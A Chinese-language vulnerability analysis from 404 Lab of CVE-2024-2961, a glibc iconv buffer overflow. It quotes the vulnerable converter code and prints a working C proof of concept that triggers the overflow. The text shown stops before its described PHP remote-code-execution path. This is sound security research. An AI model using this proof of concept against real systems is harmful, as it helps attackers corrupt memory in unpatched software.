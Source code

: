 #  原创 Paper | CVE-2024-2961 漏洞分析   
原创 404实验室  知道创宇404实验室   2024-06-13 15:24  
  
**作者：****Hcamael@知道创宇404实验室**  
  
**时间：2024年6月13日**  
  
近期，Linux GLIBC的库函数iconv缓冲区溢出漏洞（CVE-2024-2961）的细节/  
PoC  
被公开，目前已知的利用方式是可以让PHP的任意文件读取漏洞升级的远程命令执行漏洞。本文将对公开的漏洞细节和PHP利用思路进行分析研究。  
  
**1 ICONV漏洞详情**  
  
CVE-2024-2961本质上是GLIBC中iconv库的漏洞，我认为该漏洞的发现巧合性很大。该漏洞的发现者是通过fuzz php发现该漏洞的，如果单纯的fuzz iconv库是无法导致crash，就算是fuzz php，一般情况下就算触发了该漏洞也很难导致crash。  
  
首先是漏洞点，位于glibc/iconvdata/iso-2022-cn-ext.c  
文件，相关代码如下所示：  
```
else if ((used & SS2_mask) != 0 && (ann & SS2_ann) != (used << 8))\          {                                   \        const char *escseq;                       \                                          \        assert (used == CNS11643_2_set); /* XXX */            \        escseq = "*H";                            \        *outptr++ = ESC;                          \        *outptr++ = '$';                          \        *outptr++ = *escseq++;                        \        *outptr++ = *escseq++;                        \                                          \        ann = (ann & ~SS2_ann) | (used << 8);                 \          }                                   \        else if ((used & SS3_mask) != 0 && (ann & SS3_ann) != (used << 8))\          {                                   \        const char *escseq;                       \                                          \        assert ((used >> 5) >= 3 && (used >> 5) <= 7);            \        escseq = "+I+J+K+L+M" + ((used >> 5) - 3) * 2;            \        *outptr++ = ESC;                          \        *outptr++ = '$';                          \        *outptr++ = *escseq++;                        \        *outptr++ = *escseq++;                        \                                          \        ann = (ann & ~SS3_ann) | (used << 8);                 \          }
```  
  
在上述代码的这两个分支中，输入会被转换为4字节的输出，且不会检查输出buf的长度。这可能产生6种输出：  
```
\x1b$*H        0x1b 0x24 0x2A 0x48\x1b$+I        0x1b 0x24 0x2b 0x49\x1b$+J        0x1b 0x24 0x2b 0x4a\x1b$+K        0x1b 0x24 0x2b 0x4b\x1b$+L        0x1b 0x24 0x2b 0x4c\x1b$+M        0x1b 0x24 0x2b 0x4d
```  
  
再来看看PoC，代码如下所示：  
```
/*CVE-2024-2961 POC$ gcc -o poc ./poc.c && ./pocRemaining bytes (should be > 0): -1$*/#include <iconv.h>#include <stdlib.h>#include <stdio.h>#include <string.h>#include <ctype.h>void hexdump(void *ptr, int buflen){    unsigned char *buf = (unsigned char *)ptr;    int i, j;    for (i = 0; i < buflen; i += 16)    {        printf("%06x: ", i);        for (j = 0; j < 16; j++)            if (i + j < buflen)                printf("%02x ", buf[i + j]);            else                printf("   ");        printf(" ");        for (j = 0; j < 16; j++)            if (i + j < buflen)                printf("%c", isprint(buf[i + j]) ? buf[i + j] : '.');        printf("\n");    }}void main(){    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");    char input[0x10] = "AAAAA劄";    char output[0x10] = {0};    char *pinput = input;    char *poutput = output;    // Same size for input and output buffer    size_t sinput = strlen(input);    size_t soutput = sinput;    iconv(cd, &pinput, &sinput, &poutput, &soutput);    printf("Remaining bytes (should be > 0): %zd\n", soutput);    hexdump(output, 0x10);}
```  
  